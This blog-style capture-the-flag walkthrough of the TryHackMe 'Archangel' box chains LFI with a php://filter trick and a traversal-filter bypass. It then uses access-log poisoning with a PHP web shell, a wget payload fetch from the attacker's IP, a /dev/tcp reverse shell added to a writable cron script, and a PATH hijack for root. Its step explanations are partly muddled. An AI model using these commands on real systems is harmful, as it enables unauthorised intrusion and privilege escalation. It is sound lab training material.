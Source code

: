 ```yaml
---
layout: post
title: Archangel
categories: Privesc
---
```

Hello guys and welcome to yet another writeup. This is ye another easy box on tryhackme and is accessible [here](https://tryhackme.com/room/archangel)
We shall tackle some awesome topics which include:
  1. LFI.
  2. Priviledge exploitation.
  3. Web exploitation.
With that said let us get right to it

# NMAP scan.
As usual we are gonna start of by scanning open ports on our machine.
![](https://i.ibb.co/ZVjYSZ9/nmap.png)

We are able to see that port 80 is open and is hosting a web application.
we are able to view a home page which does not have alot on it but we can see a type of hostname

![](https://i.ibb.co/YLJjDwK/wavefire.png)

We can actually use this and and it to our **/etc/hosts** file, then try and go to the page.
![](https://i.ibb.co/TWTBYN0/mafia.png)

# LFI.
Okay guys it is about to get really messy in here. Stay frosty.

So first of all we are going to FUZZ for hidden directories.

![](https://i.ibb.co/kQRKnYg/wfuzz.png)

And we get a hit for **robots.txt**. which when we visit the page looks something like this.

![](https://i.ibb.co/vv2SyZj/robots.png).

And we can actually see another directory **/test.php**. visit this page and we can view another page with a button.

![](https://i.ibb.co/cJPSy3b/control.png)

We can then see that the button redirects us to **?view=/var/www/html/development_testing/mrrobot.php**.

From here we can try to do a path traversal filter. After hours of trial and error I found this filter and it worked.
**php://filter/convert.base64-encode/resource=**
Okay so now we can see some base64 code 
let us try and change **mrrobot.php** to **test.php**. And we can see some more base64. let us decode that.

![](https://i.ibb.co/pnGV1tK/testbase64.png)
![](https://i.ibb.co/944fSfv/lfiflag.png)

And we can get a flag but also we can see some php filters on it.
# Acesslog
Okay so the filter dictates that using **../..** which we can easily bypasss by using **..//..**

Next let us try and view the access log using the bypass.

![](https://i.ibb.co/f98gBfQ/accesslog.png)

So next we can try and pass some malicious code to the user agent. **<?php system($_GET['cmd']); ?>**.
So to do this follow this steps.

 1. right click and press Inspect on the dropdown menu.
 2. click on the Network option and reload the page
 3. Hit resend.
 4. scroll to the user agent and replace with the malicious code.
 5. Hit send.

Smooth so next up let us try and execute some commands on it.
let us try and add **&cmd=ls** to the end of the url.

![](https://i.ibb.co/WWmnG2H/cmd-ls.png)

We can actually run commands on it. so next let us try and get a reverse shell.

# SHELL
So we are going to get a sample php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Next, we are going to set up a python server on our machine. 
Next, we are going to run **&cmd=wget http://ip/revshell.php**
We should be able to get a 200 code on our machine.
![](https://i.ibb.co/4jKLJfz/httpserver.png)

next start up a listener on your machine
Then run **&cmd=php revshell.php**
going back to our listener we have a shell.

![](https://i.ibb.co/gzQvS34/nc.png)


# Switch user.

So next we can get a better shell by using **python3 -c "import pty;pty.spawn('/bin/bash -i')"**

Then we can check out the cron jobs **cat /etc/crontab**

We can actually see that a job runs as archangel every minute. Which we can read and write.
So we then run **echo "bash -i >& /dev/tcp/ip/1235 0>&1" >> /opt/helloworld.sh**

![](https://i.ibb.co/qFqjRB3/archangel.png)

Then run another listener and wait for a minute. Coffee break.

# ROOT

Moving into the secret directory we can see a file called backup. Running does not do much so we are going to do something crazy. 
So type:
 1. **echo '/bin/bash -p' > cp**
 2. **chmod 777 cp**
 3. **export PATH=/home/archangel/secret:$PATH**
 4. **echo $PATH**
 5. **./backup**

Okay let us dig into what jus happened. This is gonna be crazy but heck.

 1. **echo '/bin/bash -p' > cp**: This command redirects the output of the `echo` command, which is the string `'/bin/bash -p'`, into a file named `cp`. The content of the `cp` file will be `/bin/bash -p`.

 2. **chmod 777 cp**: This command changes the permissions of the `cp` file to allow all users to read, write, and execute it. The `chmod` command is used to modify file permissions, and `777` is a symbolic representation that grants all permissions to the owner, group, and others.

 3. **export PATH=/home/archangel/secret:$PATH**: This command adds a directory called `/home/archangel/secret` to the beginning of the `PATH` environment variable. The `PATH` variable contains a list of directories that the shell searches for executable files. By adding `/home/archangel/secret` at the beginning, any executable file in that directory will take precedence over files with the same name in other directories listed in `PATH`.

 4. **echo $PATH**: This command displays the value of the `PATH` environment variable. After the previous `export` command, it will show `/home/archangel/secret` followed by the original directories that were part of `PATH`.

 5. **./backup**: This command attempts to execute a file named `backup` in the current directory. The `./` prefix indicates that the file should be executed from the current directory instead of searching for it in the directories listed in `PATH`. If the `backup` file exists and has executable permissions, it will be run with the elevated privileges specified in step 1 (`/bin/bash -p`).

Overall, these commands create a file called `cp` with elevated permissions, modify the `PATH` environment variable to prioritize a specific directory, and execute a file named `backup` with elevated privileges. The exact consequences and implications of these actions depend on the specific context and contents of the `backup` file.

And yes we are root.
![](https://i.ibb.co/tCf2k5W/root.png)

# RESOURCES
[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Okay honestly that was a great learning experience for me and I hope it is the same for you. 
Happy hacking :)

